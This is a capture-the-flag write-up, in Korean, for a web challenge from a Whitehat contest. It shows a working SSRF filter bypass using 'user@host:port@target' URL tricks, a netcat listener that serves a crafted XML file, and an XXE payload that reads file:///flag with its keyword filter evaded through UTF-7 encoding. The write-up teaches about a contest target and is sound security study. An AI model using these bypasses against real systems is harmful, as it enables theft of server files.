# familiar

**Description:**
> web  
> [Link](http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr)

## Keyword
* Bypass SSRF
* Bypass XXE by using UTF-7

## Solution
![Main](img/001.png)  
메인 페이지에 접근해보면 Flag 메뉴를 볼 수 있습니다.

![Flag-Menu](img/002.png)  
Flag 메뉴에 들어가보면 flag가 어디에 있는지 알려주고 있습니다.  
`Flag is at /flag`

그리고 URL을 보면 아래와 같이 어떠한 값이 인코딩되어 page 파라미터에 입력된 것을 볼 수 있습니다.  
`http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=`

해당 값을 base64로 디코딩해보면 문제 URL 주소와 메뉴명을 볼 수 있습니다.  
```python
>>> import base64
>>> base64.b64decode('Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=')
'cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag'
```

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag  
위 주소로 직접 접근을 해보면 `Seriously?`라는 메시지를 볼 수 있습니다.  
![Seriously](img/003.png)

이번에는 `flag` 대신에 `index`를 넣어서 base64 인코딩하고 page 파라미터에 입력해서 요청하면 아래와 같은 에러 메시지를 볼 수 있습니다.  
```python
>>> import base64
>>> base64.b64encode('cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/index')
'Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2luZGV4'
```

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=Y2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2luZGV4  
![404-Error](img/004.png)  
`http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/index.xml returns 404 Error...`  
에러 메시지를 통해서 page에 입력된 값에 `.xml 확장자`가 붙는 것을 확인할 수 있습니다.

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag.xml  
이번에는 `.xml 확장자`를 포함해서 flag.xml에 직접 접근해보면 flag.xml 파일의 내용을 확인할 수 있습니다.  
![flag.xml](img/005.png)  
```xml
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<content>
<title>Flag</title>
<body><p>Flag is at <strong>/flag</strong></p></body>
</content>
```

flag.xml 파일을 통해 확인한 구조를 바탕으로 자신의 서버에 flag.xml 파일을 생성하고 문제 서버에서 생성한 파일을 요청하도록 page 파라미터에 인코딩해서 입력하였습니다.  
flag.xml:
```xml
<content>
<title>web</title>
<body>tendollar</body>
</content>
```

```python
>>> import base64
>>> base64.b64encode('do9.kr/flag')
'ZG85LmtyL2ZsYWc='
```

http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85LmtyL2ZsYWc=  
![SSRF-Detected](img/006.png)  
하지만, 문제 서버 도메인을 벗어날 경우 `SSRF Detected!` 메시지가 발생하면서 실패한 것을 볼 수 있습니다.

```python
>>> import base64
>>> base64.b64encode('do9.kr:8989@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag')
'ZG85LmtyOjg5ODlAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc='
```
http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85LmtyOjg5ODlAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=  
`Flag is at /flag`  
위와 같은 형태로 시도해보면 `SSRF Detected!` 메시지는 발생하지 않지만 자신의 서버로 접근 유도에는 실패하였습니다.

*black hat 2017 - A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages! (Orange Tsai)*  
발표자료를 참고하여 SSRF를 아래와 같은 형태로 우회할 수 있습니다.  
`temp@server@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag`

```python
>>> import base64
>>> base64.b64encode('do9dark@do9.kr@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag')
'ZG85ZGFya0Bkbzkua3JAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc='
```
http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85ZGFya0Bkbzkua3JAY2Q0MzAzZWZjODFmMjFjMWQxZTE1ZjRhMzhhYzQ2MzYud2hpdGVoYXRjb250ZXN0LmtyL2ZsYWc=  
`http://do9dark@do9.kr@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag.xml CURL Failed...`  
위와 같은 방법으로 시도할 경우 `SSRF Detected!` 메시지 대신 `CURL Failed...` 메시지가 발생하는 것을 볼 수 있습니다.

자신의 서버에서 8989번 포트를 열어두고 아래와 같은 방법으로 시도하였습니다.
![nc_listening_8989](img/007.png)  
```bash
# nc -l 8989
```

```python
>>> import base64
>>> base64.b64encode('do9dark@do9.kr:8989@cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/flag')
'ZG85ZGFya0Bkbzkua3I6ODk4OUBjZDQzMDNlZmM4MWYyMWMxZDFlMTVmNGEzOGFjNDYzNi53aGl0ZWhhdGNvbnRlc3Qua3IvZmxhZw=='
```
http://cd4303efc81f21c1d1e15f4a38ac4636.whitehatcontest.kr/?page=ZG85ZGFya0Bkbzkua3I6ODk4OUBjZDQzMDNlZmM4MWYyMWMxZDFlMTVmNGEzOGFjNDYzNi53aGl0ZWhhdGNvbnRlc3Qua3IvZmxhZw==

![nc_connect](img/008.png)  
위와 같이 접근할 경우 8989번 포트로 요청이 들어온 것을 확인할 수 있습니다.

![nc_request_flag.xml](img/009.png)  
사전에 자신의 서버에 만들어 놓은 flag.xml 파일 내용을 직접 입력하여 문제 서버로 전달을 시도하였습니다.

![nc_response_flag.xml](img/010.png)  
정상적으로 문제 서버가 전달받은 내용을 출력한 것을 볼 수 있습니다.

![nc_request_xxe](img/011.png)  
다시 8989번 포트를 열어두고 `/flag` 파일을 읽어서 보여주도록 XXE 공격을 시도하였습니다.  
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY flag SYSTEM "file:///flag" >]>
<content>
<title>web</title>
<body>&flag;</body>
</content>
```

![nc_response_xxe](img/012.png)  
하지만, `XXE Detected!` 메시지가 발생하면서 실패한 것을 볼 수 있습니다.

몇 가지 테스트를 해보면 `DOCTYPE`, `ENTITY`, `SYSTEM`과 같은 문자열이 있을 경우 XXE 공격을 막아놓은 것을 알 수 있습니다.  
이 부분은 UTF-7을 통해서 우회할 수 있습니다.

![nc_xxe_utf7](img/013.png)  
```xml
<?xml version="1.0" encoding="UTF-7"?>
<+ACE-+AEQ-+AE8-+AEM-+AFQ-+AFk-+AFA-+AEU- foo +AFs-+ADw-+ACE-+AEU-+AE4-+AFQ-+AEk-+AFQ-+AFk- flag +AFM-+AFk-+AFM-+AFQ-+AEU-+AE0- "file:///flag" +AD4-+AF0->
<content>
<title>web</title>
<body>&flag;</body>
</content>
```

![flag](img/014.png)  
UTF-7 변환을 통하여 `XXE Detected!`를 우회하고 `/flag` 파일의 내용을 정상적으로 확인할 수 있습니다.

![iconv](img/015.png)  
다음과 같은 명령어를 통해 UTF-7로 변환한 문자열을 UTF-8로 변환하여 확인할 수 있습니다.  
```bash
# cat flag.xml | iconv -f UTF-7 -t UTF-8
```

해당 문제 서버가 입력값을 처리하는 과정:  
```
$url = $_GET['page'] . '.xml';
ssrf_check($url);
curl($url);
xxe_check($url);
xml_parse($url);
```

## Flag
Flag{dpvmdprtmdofqjaeocpdjswpskdhsi}
